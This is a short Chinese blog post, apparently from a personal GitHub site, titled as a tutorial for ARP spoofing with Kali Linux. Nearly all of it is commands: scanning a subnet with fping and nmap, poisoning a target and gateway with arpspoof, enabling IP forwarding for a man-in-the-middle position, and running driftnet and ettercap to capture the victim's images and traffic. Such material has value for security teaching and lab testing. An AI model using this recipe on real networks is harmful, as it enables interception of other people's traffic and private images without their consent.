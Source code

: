 ```yaml
---
title: 使用Kali进行ARP欺骗攻击
date: 2023-05-22 10:28:36
author: xeonds
toc: true
excerpt: (￣﹃￣)
---
```


## 步骤

先用`ifconfig`看网卡名称，我是`eth0`。随后用`fping`或者`nmap`扫描网段

```bash
fping -asg 192.168.16.0/24
# 或者这条
nmap 192.168.16.1-100
arpspoof -i eth0 -t [target IP] [gate]
```

如果想做中间人攻击，编辑`/etc/sysctl.conf`，添加配置`net.ipv4.ip_forward=1`，就可以开启端口转发。

此时重新运行，不过得换一下网关ip和目标ip

```bash
arpspoof -i eth0 -t [gate] [target IP] 
```
随后打开另一个终端，运行`driftnet`和`ettercap`：

```bash
driftnet -i eth0 -a -d /root/out
ettercap -Tq -i eth0
```

在上面的目录可以看到缓存的图片，下面的终端可以看到eth0的流量。至此，攻击测试完成。

